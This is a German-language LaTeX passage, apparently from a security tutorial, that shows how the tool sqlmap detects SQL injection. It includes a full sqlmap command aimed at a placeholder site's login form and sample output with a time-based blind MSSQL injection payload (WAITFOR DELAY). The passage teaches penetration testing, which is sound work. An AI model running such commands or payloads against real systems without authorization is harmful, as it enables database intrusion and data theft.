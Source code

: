 Um potenzielle SQL-Injection-Schwachstellen innerhalb einer Anwendung 
zu finden, existieren eine Vielzahl von kommerziellen Anwendungen 
(z.B. Havij\footnote{http://www.itsecteam.com/products/havij-v116-advanced-sql-injection/}) 
als auch Open-Source-Tools (z.B. Sqlmap\footnote{http://sqlmap.org/}).


Bei Sqlmap handelt es sich um ein Open-Source-Tool um SQL-Injection-Schwachstellen 
automatisiert zu finden und auszunutzen. Bei Sqlmap 
handelt es sich um eine konsolenbasierte Anwendung. Das kommerzielle 
Tool Havij bietet dem Anwender hingegen eine grafische Menüführung an.

Im folgenden Beispiel besteht die Vermutung, dass einer der folgenden 
POST-Parameter für SQL-Injection anfällig ist. Dabei ist im Vorfeld der 
Überprüfung bekannt, dass es sich bei der Backend-Datenbank um eine 
MSSQL-Datenbank handelt. Um dies automatisiert zu verifizieren, wird 
Sqlmap mit folgenden Parametern aufgerufen:

\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
sqlmap.py -u "http://www.beispiel.de"
--data="p1=index.aspx?txtMail=user@name.de&txtPw=geheim&cmdSend=Login" 
--dbms=mssql --risk=3 --level=3
\end{lstlisting}

Ist einer der Parameter für SQL-Injection-Angriffe anfällig, werden 
Informationen zum darunterliegen Betriebssystem, der eingesetzten 
Datenbank, als auch Details zur der verwendeten Injection-Technik 
ausgegeben.

\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
[INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows Vista
web application technology: ASP.NET, ASP, Microsoft IIS 7.0
back-end DBMS: Microsoft SQL Server 2008

Place: POST
  Type: AND/OR time-based blind
  Title: Microsoft SQL Server/Sybase time-based blind
  Payload: p1=index.aspx?txtMail=user@name.de' WAITFOR DELAY '0:0:5'
  --&txtPw=geheim&cmdSend=Login
\end{lstlisting}

Wie der Ausgabe zu entnehmen ist, wird als Datenbanksystem das Microsoft 
Produkt SQL-Server 2008 auf einem Microsoft Windows Vista betrieben. 
Der Parameter \texttt{txtMail} ist für einen time-based blind 
SQL-Injection-Angriff anfällig.


